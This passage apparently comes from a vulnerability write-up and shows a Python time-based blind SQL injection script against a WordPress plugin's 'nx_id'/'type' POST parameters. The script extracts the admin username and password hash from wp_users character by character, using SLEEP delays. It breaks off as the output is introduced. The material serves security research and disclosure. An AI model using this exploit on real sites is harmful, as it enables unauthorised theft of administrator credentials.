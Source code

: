 ```py
        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```
And when we ran this python script this showed:

<div align="center">
    <figure>